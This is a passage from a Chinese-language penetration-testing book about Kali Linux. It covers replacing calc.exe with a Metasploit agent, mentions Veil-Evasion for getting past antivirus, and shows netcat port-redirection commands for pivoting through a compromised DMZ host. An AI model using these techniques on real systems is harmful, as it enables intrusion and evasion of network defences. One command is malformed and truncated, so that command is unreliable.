 代理可以放置在目标系统上，重命名为`calc.exe`以替换原始的计算器，然后执行。

不幸的是，几乎所有 Metasploit 编码的可执行文件都可以被客户端防病毒软件检测到。这归因于渗透测试人员向 VirusTotal（[www.virustotal.com](http://www.virustotal.com)）等网站提交了加密的有效负载。然而，您可以创建一个可执行文件，然后使用 Veil-Evasion 对其进行加密，如第四章 *利用*中所述。

# 重定向端口以绕过网络控制

到目前为止，我们已经检查了对受攻击系统的远程控制访问，就好像我们在受害者和攻击者的机器之间有直接连接；然而，这种连接通常受到网络设备（如防火墙）的控制或阻止。

攻击者可以通过端口重定向来规避这些控制，这是一个指定的系统，它监听定义的端口并将原始数据包转发到特定的次要位置。

Kali 提供了几个支持端口重定向的工具，包括`nc`、`cryptcat`、`socat`、`ssh`、`fpipe`和 Metasploit 的`meterpreter`；我们将在以下部分中看一些示例。

## 示例 1 - 简单的端口重定向

简单的端口重定向可能会被使用，例如，如果您已经在网络外部的**非军事区**（**DMZ**）上损坏了一个系统，并且需要能够从远程位置与内部系统进行通信。

在 DMZ 中受损的系统上，配置一个 Netcat 实例来监听传入命令并将其转发到目标，使用以下命令：

```
root@kali:~# nc -l -p 44444 -e <TAGET IP> 444

```

这个命令将调用 Netcat（`nc`）来监听（`-l`）传入的流量，并执行（`-e`）将这些传入的流量传输到端口`444`上的目标。端口不是固定的，它们不必在监听/转发主机和最终目标上相同。

如果您缺乏有关目标内部网络的完整信息，可以尝试以下命令：

```
root@kali:~# nc -l -p <local listening port> -c "nc <TARGET IP> 
  <TARGET port> 

```

这个命令将设置本地（攻击者）Netcat 实例监听（`-l`）指定的端口，然后指示 Netcat 在每次新连接（`-c`）时创建一个新进程。

这个简单的例子允许外部人员连接到直接网络；然而，它不允许双向数据连接，这对于一些工具是必需的。

## 示例 2 - 双向端口重定向

考虑三个独立的 Windows 数据系统：

[攻击者] | [转发者] | [目标]

为了使用 Netcat 创建双向通信通道，我们将不得不使用命名管道。命名管道，也称为 FIFO，是一种创建定义的进程间通信的方法；这使我们可以将其处理为一个对象，在发出命令时更容易管理。在以下示例攻击中，我们创建一个名为`reverse`的命名管道来处理双向通信。

攻击者在他的本地系统上有一个 Netcat 实例，使用以下命令监听端口`6661`：

```
nc -l 6661

```

转发者，一个安装了 Netcat 实例的受损主机，将监听传入的数据包并将其转发到目标；它被配置为使用以下命令在端口`6666`上监听：

```
nc -l 6666

```
